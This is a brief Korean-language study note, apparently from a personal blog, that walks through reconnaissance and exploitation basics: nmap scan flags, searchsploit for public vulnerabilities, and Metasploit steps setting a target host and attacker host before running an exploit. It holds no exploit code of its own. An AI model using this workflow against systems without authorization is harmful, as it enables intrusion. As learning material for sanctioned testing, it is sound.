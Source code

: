 리눅스 기초 명령어
find / -name "찾을 거" 

![이미지](/assets/f.png)

**정보수집**

nmap ip 
-p:특정 포트 스캔

-sV :정확한 네트워크 정보나 이름 알려줌

-OA 출력 형태 지정
![이미지](/assets/nmap1.png)
searchsploit:공개된 취약점 검색

-w:웹 사이트 주소로 보여줌
![이미지](/assets/searchsploit1.png)

공격
msfconsole:메타스플로이트 프레임워크를 콘솔형태로 사용 가능
다양한 취약점 공격 가능
![이미지](/assets/ms.png)

search 취약점이름
![이미지](/assets/search.png)

use 0

![이미지](/assets/use.png)

options
![이미지](/assets/options.png)

set rhost 타겟 ip

set lhost 공격자 ip

![이미지](/assets/set12.png)

입력하면 rhost 와 lhost 부분이 모습을 볼 수 있다

![이미지](/assets/set%20c.png)

exploit
![이미지](/assets/exploit1.png)
이 문구가 다 뜨고나서 명령어를 입력하면 된다.

